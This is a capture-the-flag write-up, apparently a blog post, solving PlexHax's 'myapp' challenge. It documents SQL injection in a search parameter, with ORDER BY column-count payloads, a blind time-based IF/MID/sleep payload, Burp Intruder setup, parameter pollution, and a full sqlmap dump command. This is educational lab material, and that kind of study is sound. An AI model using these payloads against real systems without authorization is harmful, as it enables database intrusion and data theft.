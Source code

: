 ## Polluted Pathways: From Innocent Parameters to Malicious SQL

Hello all! This past weekend I had the opportunity to participate in PlexHax's CTF event hosted by PlexTrac. I thoroughly enjoyed working through the available challenges and wanted to document the solution to the 'myapp' challenge. 

![](https://miro.medium.com/v2/resize:fit:627/1*OBtegrwInvE-DLh39uORzQ.png)

When first navigating to the target application, a search page is rendered allowing the user to search for different products based on attributes such as Price, Category, and Product Name. 

![](https://miro.medium.com/v2/resize:fit:437/1*7R4eB6Mlq74sWKi4mcBbrQ.png)

During the manual testing process, a noteworthy behavior emerges: the application seems to accept string concatenation. Specifically, the input fields appear to treat the `'+'` character as a legitimate means of concatenating strings. This behavior becomes evident when the input `'te'+'st'` results in the display of the word `'test'`.

The recognition of this string concatenation behavior is a significant clue. It implies that the application's backend likely constructs SQL queries by merging strings, potentially leading to a vulnerability known as SQL injection (SQLi). In SQL injection attacks, attackers exploit the application's inadequate handling of input, tricking it into executing unintended SQL queries.

**HTTP Request**
```HTTP
GET /search.php?attribute=product_name&query=hoo'+'die HTTP/2

Host: myapp.plexhax.com
```

**HTTP Response:**
```HTTP
HTTP/2 200 OK
X-Powered-By: PHP/7.4.33
Alt-Svc: h3=":443"; ma=86400

<!-- search.php -->
Product Name: hoodie - Price: $10.99<br>
```

To validate the presence of the SQLi vulnerability and delve deeper into its implications, we can adapt the _ORDER BY_ technique into a blind scenario. In a blind situation, the attacker doesn't receive direct error messages or database outputs but relies on how the application responds to crafted queries. 

By injecting ORDER BY clauses with numeric indices and observing the application response, we can solidify if the user-supplied input is influencing the SQL query execution. If vulnerable, we can also deduce valuable information, such as the number of columns in the query, the data types of columns, and more. 

```SQL
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
```

When iteratively modifying the payload `hoodie'+ORDER BY 3--+` was supplied, the application displayed the results as expected. However, when supplying 4 columns the application unexpectedly refrained from displaying the results. This distinctive behavior indicates that ordering by the fourth column yielded no matching outcomes.    

**HTTP Requests:**
```HTTP
GET /search.php?attribute=product_name&query=hoodie'+ORDER+BY+3--+ HTTP/2
Host: myapp.plexhax.com
```

**HTTP Response:**
```HTTP
HTTP/2 200 OK
Date: Thu, 17 Aug 2023 17:44:38 GMT
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/7.4.33

<!-- search.php -->
Product Name: hoodie - Price: $10.99<br>
```

**False HTTP Request**:
```HTTP
GET /search.php?attribute=product_name&query=hoodie'+ORDER+BY+4--+ HTTP/2
Host: myapp.plexhax.com
```

**HTTP Response:**
```HTTP
HTTP/2 200 OK
Date: Thu, 17 Aug 2023 17:44:38 GMT
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/7.4.33

<!-- search.php -->
No products found.
```


While presumptions about the database management system (DBMS) can be inferred, we can extract the version number utilizing a blind technique, which can play a pivotal role in understanding the technology stack and any associated vulnerabilities. 

To achieve this, we can utilize the power of conditional statements within SQL queries. Conditional Statements enable the application to execute different actions based on a specified condition. In this case, the goal was to create a statement that would selectively trigger an action based on the DBMS version number. 
```SQL
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`
```

A common technique to extract this information involves the use of the `MID()` function. The following payload was employed:

```SQL
GET /search.php?attribute=product_name&query=hoodie' OR IF(MID(@@version,1,1)='5',sleep(10),1)='2
```

Here, `@@version` refers to the DBMS version string, and `MID()` extracts the first character of the version and checks if it's equal to '5'. If the condition is true, the database will pause for 10 seconds, if not, the application response time should be `normal`.

This is a great task for Burp Intruder, a tool capable of automating repetitive HTTP requests, and inserting customized payloads into designated positions iteratively. Capture the search request and forward it to Intruder.

![](https://miro.medium.com/v2/resize:fit:437/1*7R4eB6Mlq74sWKi4mcBbrQ.png)

Modify the attack type to use `Cluster Bomb` which allows for multiple positions to be iteratively tested based on the supplied payloads, providing all possible permutations. 

```HTTP
GET /search.php?attribute=product_name&query=hoodie'+OR+IF(MID(%40%40version,§1§,1)%3d'§5§',sleep(10),1)%3d'2 HTTP/2

```

`§1§`: A marker representing the position within the string where the first character of the version number is located.

`§5§`: A marker representing the position within the string where the specific character we're comparing to is located.

Add a new payload marker to the version number we're attempting to check (5), and the first character of @@version (1) as shown above.

Select the payloads tab and use the `Numbers` payload type for both of our payload sets. Define our range from 0-10 with a step of 1 to iterate through all numbers and start the attack. 

![](https://miro.medium.com/v2/resize:fit:627/1*eR7opk9UgPQffrRHYgbpOw.png)

The "Cluster Bomb" attack type facilitates the systematic iteration through various values at specific positions within the payload. By selecting the "Numbers" payload type and defining the range from 0 to 10 with a step of 1, the attack will execute the payload with each number in the defined range, substituting the markers accordingly.

Once the attack is initiated, the results are captured and presented for analysis. In this scenario, the "Columns" tab becomes invaluable. This tab allows the inclusion of "Response Received" and "Completed Times," providing a comprehensive overview of how the application responded to each iteration of the attack.

The conditional logic set up in the payload comes into play here. As each iteration runs, it supplies a new number to be referenced in the conditional statement, assessing whether the behavior changes in response to the modified payloads. Filtering the requests by "Response Completed" will showcase a few requests with significantly longer response times indicating that our conditional statement succeeded causing the DBMS to sleep for 10 seconds. 

Now that we've extracted some important information using manual testing, we can have `sqlmap` begin to fingerprint the DBMS and fetch data from the DB. 

It's important to note during this testing, I managed to discover HTTP Parameter Pollution (HPP) for the `query` parameter. Though HPP vulnerabilities don't directly cause SQLi vulnerabilities, they can open up additional attack vectors and allow exploitation through previously tested parameters. 

![](https://miro.medium.com/v2/resize:fit:627/1*Zpv-DX5medrtwoneCOlqaQ.png)

I included the additional query parameter and saved the HTTP request to a file titled 'request.txt'.

```HTTP
GET /search.php?attribute=product_name&query=test&query= HTTP/2
Host: myapp.plexhax.com
```

```bash
sqlmap -r request.txt -a -p query
```

![](https://miro.medium.com/v2/resize:fit:533/1*d-pWtxrGmm6W3kSZ3eOvWQ.png)

And there is our ~~flag~~! As you may have noticed from the challenge description, the flag is only obtained after using this value as the *report name* through their reporting platform. Once submitted, the redeemable flag is presented.  